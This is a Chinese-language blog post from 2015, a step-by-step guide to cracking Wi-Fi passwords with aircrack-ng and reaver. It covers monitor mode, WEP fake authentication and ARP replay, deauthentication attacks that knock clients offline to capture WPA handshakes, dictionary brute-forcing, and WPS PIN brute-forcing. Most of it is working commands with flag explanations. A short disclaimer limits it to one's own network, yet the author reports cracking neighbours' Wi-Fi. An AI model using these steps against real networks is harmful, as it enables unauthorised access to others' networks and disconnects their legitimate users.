```yaml
---
layout: post
title:  "WIFI密码破解笔记"
date:   2015-10-31 09:15:52
comments: true
categories: Tech
---
```

相对于前一段时间脆弱的WEP加密路由器而言，当今的路由器加密方式也大都改变为WPA/WPA2，使得无线路由器的破解难度增加。
虽然如此，但还是有很多漏洞层出不穷，如针对路由器WPS的漏洞。退一步来说，即使加密算法无懈可击，我们还可以针对安全防护中最脆弱的部分——人——来进行破解。
人的想象力实在是匮乏的很，往往设置密码来来回回就是那么几类，用一个常见的弱口令字典，往往就能在10分钟左右把其密码暴力破解出来。
这里提供己种常见的WIFI破解方式，其中WEP破解因为已经过时，所以只是在提到的时候一笔带过，主要记录的是抓握手包然后暴力破解的
通用方法，末尾也会提及到WPS的破解方式。注意这仅仅作为个人实验用，最好在自己的家庭网络中测试，以免给别人带来不便。  

### 准备工具:  
> - Linux操作系统，Windows下可以用虚拟机代替。
> - 安装aircrack-ng（Kali操作系统自带）
> - 安装reaver（可选）

 
### Step1. 查看网卡信息，记录无线网卡MAC地址

    #ifconfig -a (以管理员权限运行，下同)

这里假设本机MAC地址为：00:11:22:33:44:55

### Step2. 开启无线网卡，设置为监听模式  
    #airmon-ng start wlan0  [信道号]

其中信道号可以先不填,开启后可以ifconfig看到多了个接口mon0，即为监听接口。值得一提的是，无线网卡的监听模式其实
就相当于有线情况下的混杂模式（Promiscuous Mode）。
  
### Step3. 搜索周围的无线网络  
    #airodump-ng mon0

这条命令会在mon0接口上不断切换信道来搜索附近的wifi热点，在结果中
找到待破解的AP，记录BSSID（这里假设为AA:BB:CC:DD:EE:FF），信道号（这里假定为 6），ESSID（设为myWiFi)

### Step4. 测试无线设备的注入

    aireplay-ng -9 -e myWiFi -a AA:BB:CC:DD:EE:FF mon0

其中

    -9 表示注入测试
    -e myWiFi 是无线网络名字
    -a AA:BB:CC:DD:EE:FF 是接入点的MAC地址
    mon0 是无线接口名字
    返回结果的最后一行表示注入成功率，一般比较高，如果很低表示离AP太远了  

### Step5. 开始抓包

    airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w output mon0

### Step6. 虚拟认证（可选，只在AP为WEP加密的时候才有效）

这里值得一提的是，从前为了破解WEP加密的WIFI，我们需要收集足够多的IVS。如果运气好的话，通常40位WEP（64位密钥）用30万IVs就可以破解，
104位WEP（128位密钥）有150万IVs可以破解，运气不好的话需要更多。为此我们需要用ARP注入的方式加开扑捉IVs的速度。但对于WPA/WPA2我们则没有类
似破解办法，只能通过扑捉握手包来进行暴力破解。 为了AP能够接收packet，源MAC地址必须已经连接。如果你正在注入的源MAC地址没有连接，
AP会忽略所有包并发送一个“DeAuthentication“包。这种情况下，不会有新的IVs被创建。
缺少和AP的连接是注入失败的一个常见原因，记住：你用来注入的MAC地址必须连接AP（通过虚拟认证或者使用已经连接的客户端MAC）

虚拟认证：  

    aireplay-ng -1 0 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    -1 表示虚拟认证（fake authentication）
    0 表示重新认证的时间（秒）
    -e myWiFi 是无线网络名称
    -a AA:BB:CC:DD:EE:FF 是接入点MAC地址
    -h 00:11:22:33:44:55 是我们网卡的MAC地址
    mon0是无线接口名称

成功有类似下面的输出:

    18:18:20  Sending Authentication Request
    18:18:20  Authentication successful
    18:18:20  Sending Association Request
    18:18:20  Association successful :-)

另外还可以:

    aireplay-ng -1 6000 -o 1 -q 10 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    6000 - 每6000秒重新认证一次. 长周期同时也会导致发送keep alive packets
    -o 1 - 一次仅发送一组包，默认发送多组，这样会对某些AP导致混乱
    -q 10 - 每10秒发送一次keep alive packets

成功有类似下面输出:

    18:22:32  Sending Authentication Request
    18:22:32  Authentication successful
    18:22:32  Sending Association Request
    18:22:32  Association successful :-)
    18:22:42  Sending keep-alive packet
    18:22:52  Sending keep-alive packet

### Step7.ARP请求重播攻击（可选，只在虚拟认证成功时才有效）

airodump抓包速度比较慢，为了加速包的产生，我们可以使用传统的ARP请求重播攻击（ARP request replay attack）来快速生成IVs（Initialization Vectors）：

    aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

### Step8.攻击目标客户端使其掉线，获取握手包

和WEP破解最显著的区别是，由于WPA需要暴力破解，因此抓的包里必须至少包含一个握手包，
我们可以发送一种称之为“Deauth”的数据包来将已连接至无线路由器的合法无线客户端断开，此时客户端就会重新连接无线路由器，
我们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。命令为：

    aireplay-ng -0 1 -a AA:BB:CC:DD:EE:FF -c clientMAC mon0

其中:

    -0 表示采用deauth攻击模式，后卖弄加上攻击次数，这里设置为1，可以根据情况设置为1-10不等（不要设太多不然对方会频繁掉线）
    -a 为AP的MAC ， -c为已连接的客户端MAC

### Step9.暴力破解抓下来的包

一旦捕捉到WPA handshake，我们就可以开始进行破解了：

    aircrack-ng -b AA:BB:CC:DD:EE:FF output*.cap -w yourdic

其中:

    -b AA:BB:CC:DD:EE:FF 选择了一个我们感兴趣的接入点，这是可选的，因为我们捕捉数据的时候就已经指定了此AP而忽略其他.
    output*.cap 选择我们在Step5里用airodump抓下来的包.
    -w 指定一个破解的字典。破解的效率和字典的选择有很大关系，一般选用弱口令字典，因为强口令破解时间太长，得不偿失。

许多人家里的WIFI都是常见的格式，车牌、手机、名字、拼音等等，从我破解周围WIFI的结果来看，使用通用的WPA/PSK字典来破解，时间往往不会
超过10分钟。这里说点题外话，像用预先计算好的像彩虹表一样的配对表（Pairwise Master Keys）来进行破解也是不行的，因为口令都用ESSID加了盐。所以还是得乖乖抓握手包。

 
### 其他方法（WPS破解）：

除了这样通用的暴力破解外，我们还可以用reaver来破解带WPS的路由器的PIN码，但是对信号的要求很高，如果AP的信号很强，
或者自己的无线网卡很给力，也可以采用这种方式。优点是字典无关，无论路由器密码多强都能破解出来，在我的笔记本上尝试破解了自己家的WIFI密码，
花费的时间大概为5个小时。

以上述AP为例，可以用命令行运行

    reaver  -i  mon0  -b AA:BB:CC:DD:EE:FF  -a  -S  -vv  -d2  -t 5 -c 1

其中：

    -i 监听后接口名称
    -b 目标mac地址
    -a 自动检测目标AP最佳配置
    -S 使用最小的DH key（可以提高PJ速度）
    -vv 显示更多的非严重警告
    -d 即delay每穷举一次的闲置时间 预设为1秒
    -t 即timeout每次穷举等待反馈的最长时间
    -c指定频道可以方便找到信号，如-c1 指定1频道，大家查看自己的目标频道做相应修改 （非TP-LINK路由推荐–d9 –t9参数防止路由僵死  

示例：  

    reaver -i mon0 -b MAC -a -S –d9 –t9 -vv -c 1 

    应因状况调整参数
    目标信号非常好: reaver -i mon0 -b MAC -a -S -vv -d0 -c 1
    目标信号普通: reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1
    目标信号一般: reaver -i mon0 -b MAC -a -S -vv -d5 -c 1

